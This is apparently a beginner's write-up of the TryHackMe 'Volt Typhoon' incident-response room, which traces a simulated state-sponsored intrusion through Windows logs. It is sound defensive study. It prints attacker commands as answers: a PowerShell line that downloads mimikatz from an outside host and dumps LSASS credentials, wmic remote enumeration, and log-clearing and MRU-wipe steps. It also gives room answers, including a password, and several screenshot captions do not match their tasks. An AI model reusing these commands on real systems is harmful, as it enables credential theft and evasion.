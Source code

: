 
# 🛰️ Volt Typhoon CTF Write-up (TryHackMe)

This write-up documents my analysis of the “Volt Typhoon” CTF box on TryHackMe. The scenario is based on the real-world PRC state-sponsored threat actor **Volt Typhoon**, known for their stealthy, “living off the land” techniques using native Windows tools to evade detection. This room simulates a full compromise lifecycle — from initial access to data exfiltration and log tampering.

---

## ⚠️ Real-World Context

> “U.S. agencies assess that People’s Republic of China (PRC) state-sponsored cyber actors are seeking to pre-position themselves on IT networks for disruptive or destructive cyberattacks against U.S. critical infrastructure in the event of a major crisis or conflict with the United States.”  
> — CISA, NSA, FBI, and partners

**Aliases**: Vanguard Panda, BRONZE SILHOUETTE, Dev-0391, UNC3236, Voltzite, Insidious Taurus

---

## ✅ Skills Demonstrated

- 🕵️‍♂️ **Log and Event Analysis** – Traced attacker behavior using Windows logs and application artifacts  
- 🧠 **Threat Actor TTP Mapping** – Aligned observed activity with MITRE ATT&CK techniques  
- 🧪 **PowerShell & LOLBin Forensics** – Investigated system-native tools used for persistence and evasion  
- ✍️ **Incident Report Writing** – Compiled structured documentation to simulate IR workflow

---

## 📋 Task Summary

### 🧪 Task 1: IR Scenario
_I understand my duties and have started the attached virtual machine._  
No answer required.

---

### 🛠️ Task 2: Initial Access
- **Dean’s password change time**: `2024-03-24T11:10:22`
- **New admin account**: `voltyp-admin`

![Port Scan](images/2.png)  
![Expanded Nmap](images/2.1.png)
---

### ⚙️ Task 3: Execution
- **Drive info command**:
  ```bash
  wmic /node:server01, server02 logicaldisk get caption, filesystem, freespace, size, volumename
  ```
- **Password used for archive**: `d5ag0nm@5t3r`

![Gobuster Results](images/3.png)

---

### 🛡️ Task 4: Persistence
- **Web shell directory**: `C:\Windows\Temp\`

![Robots.txt](images/4.png)  
![Hidden Dir](images/4.1.png)
---

### 🕵️‍♂️ Task 5: Defense Evasion
- **PowerShell MRU wipe**: `Remove-ItemProperty`
- **Renamed archive**: `cl64.gif`
- **Reg key checked**: `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control`

![Exploit Code](images/5.png)  
![Shell Access](images/5.1.png)  
![Privilege Escalation](images/5.2.png)

---

### 🧬 Task 6: Credential Access
- **Credential tools searched**: `OpenSSH, putty, realvnc`
- **Mimikatz command**:
  ```powershell
  Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe";
  Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait
  ```
![User Flag](images/6.png)  
![Root Flag](images/6.1.png)
---

### 🌐 Task 7: Discovery & Lateral Movement
- **Event IDs searched**: `4624 4625 4769`
- **New web shell**: `AuditReport.jspx`

![Session End](images/7.png)  
![Log Review](images/7.1.png)

---

### 💾 Task 8: Collection
- **Files copied**: `2022.csv 2023.csv 2024.csv`

![Flag 1](images/8.png)  
---

### 📡 Task 9: C2 & Cleanup
- **Proxy C2 address/port**: `10.2.30.1 8443`
- **Cleared logs**: `Application Security Setup System`

![Flag 2](images/9.png)  
![Bonus Flag](images/9.1.png)  

---

## ✍️ Reflection

This was my first formal CTF write-up, and I’ve already learned a lot that I’ll apply going forward:
- Documenting as I go
- Capturing clearer screenshots
- Structuring reports with more polish from the start

Still, I’m proud of the work here. This CTF challenged me to analyze real-world attacker behavior, and I walked away with hands-on experience in detection, persistence analysis, and defensive evasion — skills that directly apply to SOC and IR roles.

![All Done](images/10.png)
---

## 📚 References
- [CISA Alert on Volt Typhoon](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-144a)
- [MITRE ATT&CK Techniques](https://attack.mitre.org/)
